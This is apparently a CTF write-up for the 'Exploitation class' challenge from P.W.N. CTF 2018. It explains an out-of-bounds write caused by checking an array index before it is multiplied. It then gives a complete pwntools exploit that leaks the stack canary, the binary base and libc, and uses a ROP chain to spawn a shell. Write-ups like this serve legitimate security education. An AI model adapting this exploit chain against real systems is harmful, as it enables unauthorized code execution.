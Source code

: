 ```yaml
---
layout: post
title: "[P.W.N. CTF 2018] Exploitation class"
categories: ["write-up"]
tags: ["pwn", "exploit", "Out Of Bound" ]
---
```


**Points:** 200 **Category:** Exploitation **Author:** Dagger

## Introduction

In this challenge, we are given an ELF 64 bits binary with its C library. The binary is very simple, it allow us to edit/read the content of an array.

```
$ ./exploitClass 
Welcome to the student registration service for the binary exploitation class in WS18!
Enter 1 to read, 2 to write and any other number to exit!
1
Which entry to show?
0
John
Enter 1 to read, 2 to write and any other number to exit!
2
Which entry to write?
0
What to write?
toto
Enter 1 to read, 2 to write and any other number to exit!
1
Which entry to show?
0
toto
```

## Vulnerability

The vulnerability is located in the ``writeData`` function.

```c
void writeData(char *entry_array) {
  unsigned int index;
    
  puts("Which entry to write?");
  index = 0;
  scanf("%u", &index);
  if ( index <= 252 ) {
    puts("What to write?");
    read(0, (void *)(entry_array + 12 * index), 12);
  }
}
```
This function write some data at a given index which is multiplied by 12. There is an ``if`` condition which check that the index is in the good range. But the condition is done before to have multiplied the index by 12. So we can overwrite the data on the stack which are located above the array.

## Exploitation

The exploitation is more complex by the fact that:

- The binary is compiled with the Position Independant Executable protection (We need a leak in order to do a ``ROP``) ;
- The binary is compiled with the Stack Smash Protection (We need to take care of the canary) ;
- The binary is FULL RELRO (We can't overwrite the GOT entry) ;
- The binary also has No eXecutable stack (We can't execute a shellcode) ;

Using both ``writeData`` and ``readData`` functions we can easily leak the data which are above our array. To do this we are going to fill the last entry of the array with some printable character until we reach an address above the array. (The function used to print the data in readData() is puts())

The exploitation technique is in four parts:

- Leak the canary which is the first value above our array ;
- Leak one of the .text address which is the next one after the canary. This address is the ``__lib_csu_init`` address. Using this leak we can easily calculate the binary base address and so on, defeat the PIE protection.
- Set again the canary value as we needed to overwrite it in order to leak the previous address.
- Overwrite the ``saved RIP`` with our gadget. I choose a basic ROP technique, ret2plt to leak the LibC, ret2main and then ret2libc.

Here is the final exploit:
```py
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

from pwn import *

context(arch="amd64", os="linux", endian="little")


class Pwn:
    def __init__(self):
        self.p = None
        self.e = ELF("./exploitClass")
        self.libc = ELF("./libc.so.6")

    def start_binary(self):
        self.p = remote("class.uni.hctf.fun", 24241)
        self.p.recvuntil("exit!\n")

    def read_data(self, index):
        self.p.sendline("1")
        self.p.recvuntil("show?\n")
        self.p.sendline(str(index))
        data=self.p.recvline()
        self.p.recvuntil("exit!\n")
        return data

    def write_data(self, index, data, line):
        self.p.sendline("2")
        self.p.recvuntil("write?\n")
        self.p.sendline(str(index))
        self.p.recvuntil("write?\n")
        if line == 1:
            self.p.sendline(data)
        else:
            self.p.send(data)
        self.p.recvuntil("exit!\n")

    def leak_libc(self, bin_base, leak_canary):
        pop_rdi=p64(bin_base+0x14a3)
        puts_got=bin_base+self.e.got["puts"]
        puts_plt=bin_base+self.e.plt["puts"]
        main_addr=p64(bin_base+self.e.symbols["main"])

        self.write_data(22, p64(leak_canary), 0)
        self.write_data(24, "A"*8+pop_rdi[0:4], 0)
        self.write_data(25, pop_rdi[4:]+p64(puts_got), 0)
        self.write_data(26, p64(puts_plt)+main_addr[0:4], 0)
        self.write_data(27, main_addr[4:], 0)
        self.p.sendline("3")
        data=u64(self.p.recvuntil("exit!\n")[17:23]+"\x00"*2)
        return data

    def exec_system(self, libc_base, bin_base):
        pop_rdi=p64(bin_base+0x14a3)
        system_addr=libc_base+self.libc.symbols["system"]
        bin_sh_addr=libc_base+next(self.libc.search('/bin/sh\x00'))

        self.write_data(24, "A"*8+pop_rdi[0:4], 0)
        self.write_data(25, pop_rdi[4:]+p64(bin_sh_addr), 0)
        self.write_data(26, p64(system_addr), 0)
        self.p.sendline("3")

        self.p.interactive()
        self.p.close()

    def pwn_binary(self):
        self.start_binary()

        self.write_data(21, "A"*12, 0)
        self.write_data(22, "A", 0)
        leak_canary=self.read_data(21)[13:-1]
        leak_canary=u64("\x00"+leak_canary)
        log.info("Leak canary: "+hex(leak_canary))

        self.write_data(22, "A"*12, 0)
        self.write_data(23, "A"*4, 0)
        bin_base=u64(self.read_data(21)[28:-1]+"\x00"*2)-self.e.symbols["__libc_csu_init"]
        log.info("Leak binary base address: "+hex(bin_base))

        libc_base=self.leak_libc(bin_base, leak_canary)-self.libc.symbols["puts"]
        log.info("Leak base libc address: "+hex(libc_base))

        self.exec_system(libc_base, bin_base)


def main():
    pwn = Pwn()
    pwn.pwn_binary()


if __name__ == "__main__":
    main()
```

Let's try it:

![Flag](/assets/media/exploit_class_flag.png)

Done.

Ps: You can find the binary and the exploit [here](https://github.com/meffre-q/ctf/tree/master/2018/PWN/pwn/exploit_class)
